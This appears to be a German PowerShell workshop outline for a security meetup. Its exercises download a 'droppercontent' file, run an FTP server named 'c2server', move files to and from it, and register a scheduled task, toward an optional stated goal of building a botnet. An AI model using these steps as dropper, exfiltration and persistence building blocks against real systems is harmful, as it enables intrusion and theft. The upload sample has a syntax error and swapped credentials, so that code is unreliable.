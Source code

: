 # Motivation
 
 Ziel: Workshop Powershell
 
 Rahmen: Security Meetup öffentliche Veranstaltung
 Publikum: Pentester, Admins, Entwickler
 
 (Optionales Ziel: Botnetz entwickeln)
 
# Ablauf
 
 Wie findet man sich zurecht in Powershell wenn man von Linux kommt
 
 Theorie-Praxis-Theorie-Praxis...
 
# Powershell zum Laufen bekommen
 
 Linux: snap
 Windows: vorinstalliert
 
# Hello World
 
## Übungsbeschreibung
 
 Gib "Ich bin der L77t H4x0r" auf dem Bildschirm aus
 
## Hilfe
 Get-Help, alias
 
## Lösung 

```
 echo "Ich bin der L77t H4x0r"
```
`
# Datei zwischenspeichern
 
## Übungsbeschreibung
 
 Schreibe "I was here, I pwnd your system, muahaha" in eine Datei info.txt
 
## Hilfe
 Nutze Google "Write string to file powershell"

## Lösung

```
"I was here, I pwnd your system, muahaha" | Out-File .\info.txt
```

# Datei auslesen 
 
## Übungsbeschreibung
 
 Lies die Datei info.txt aus und gib sie auf dem Bildschirm aus
 
## Lösung
```
Get-Content Dateiname
```

# Datei herunterladen

## Übungsbeschreibung

Lade folgende Datei über powershell herunter
https://raw.githubusercontent.com/secf00tprint/powershellworkshop/main/droppercontent

## Hilfe
Recherchiere zu der System.Net.WebClient Klasse

## Lösung 

```
$webclient = New-Object System.Net.WebClient
$url = "https://raw.githubusercontent.com/secf00tprint/powershellworkshop/main/droppercontent"
$filename = "droppercontent"
$webclient.DownloadFile($url, $filename)
```


# Datei über ftp herunterladen

## Übungsbeschreibung

https://hub.docker.com/r/garethflowers/ftp-server
fahre folgenden ftp server hoch mit folgendem Befehl.

```
docker run \
	--name c2server \
	--detach \
	--env FTP_USER=c2cmdgod \
	--env FTP_PASS=c2cmdgod \
	--network host \
	--volume /data:/home/user \
	garethflowers/ftp-server
```

## Hilfe
Schaue dir die System.Net.WebClient Klasse in bezug auf ftp an

## Beispiellösungen 

```
$file = "C:\test.txt"
$ftpuri = "ftp://test:123qwe@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)

$file = "C:\test.txt"
$password="test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)
```

# Datei über ftp hochladen

## Übungsbeschreibung 
Lade über das ftp protokoll folgende Datei vom beigelieferten vsftp server hoch:

## Hilfe
Ähnliches vorgehen wie in vorangegangener Aufgabe.

## Beispiellösung

```
$file = "C:\test.txt"
$password"test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.UploadFile($uri, $file)
```

# timing Aufgaben

## Hilfe
Anschaun der Klassen New-ScheduledTaskTrigger, New-ScheduledTaskAction und Register-ScheduledTask

## Beispiellösung
```
$t = New-ScheduledTaskTrigger -Daily -At 13:20:00
$a = New-ScheduledTaskAction -Execute "explorer"

Register-ScheduledTask Task001 -Action $a -Trigger $t
```
